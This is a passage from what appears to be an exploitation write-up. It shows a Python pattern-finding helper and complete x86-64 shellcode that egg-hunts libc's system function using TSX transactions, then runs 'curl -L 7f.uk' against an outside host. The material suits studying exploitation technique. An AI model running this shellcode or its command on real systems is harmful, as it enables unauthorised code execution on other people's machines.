 ```python
    if not found_pattern:
        raise Exception('Could not find unique byte pattern')
    pattern_location = system_bytes.find(pattern)
    print(f'[+] Found unique pattern "{binascii.hexlify(pattern)}" {pattern_location} bytes into libc!system')

    # Return data
    return (pattern, pattern_location, system_offset)
```

So, my shellcode is quite simple, even though I saw one issue when calling `libc!system` - it saves MMX registers on the stack, which means we have to keep the stack 16-bytes aligned! Therefore:
1. My shellcode will align the stack to 16-bytes.
2. My shellcode will initialize `RSI` and look for the unique pattern (saved in `ECX`) between `xbegin` and `xend` - bad memory access will roll to the *relative* address mentioned in `xbegin`, which suits shellcodes well. Note that since Intel is [Little Endian](https://en.wikipedia.org/wiki/Endianness) the `ECX` value is `0xe90774ff`.
3. Once pattern is found - use the offset to point `RSI` to `libc!system`.
4. Prepare the sole argument in `RDI` by using `call-pop`.

So, here's my shellcode (I use [nasm](https://nasm.us/)):

```assembly
[BITS 64]

; Constants acquired from preparation
UNIQUE_PATTERN_BYTES EQU 0xe90774ff
SYSTEM_OFFSET_FROM_LIBC EQU 0x50d70
PATTERN_OFFSET_FROM_SYSTEM EQU 0x06

        ; Make some stack is 16-byte aligned
        and rsp, 0xFFFFFFFFFFFFFFF0

        ; Egg-hunting the unique bytes
        mov rsi, SYSTEM_OFFSET_FROM_LIBC + PATTERN_OFFSET_FROM_SYSTEM
        mov ecx, UNIQUE_PATTERN_BYTES

egg_hunt:
        add rsi, 0x1000
        xbegin egg_hunt
        cmp ecx, [rsi]
        xend
        jne egg_hunt

        ; Point to libc!system
        sub rsi, PATTERN_OFFSET_FROM_SYSTEM

        ; Push the commandline
        call call_system
        db 'curl -L 7f.uk', 0

call_system:
        pop rdi
        call rsi

; Hang
jmp $
```
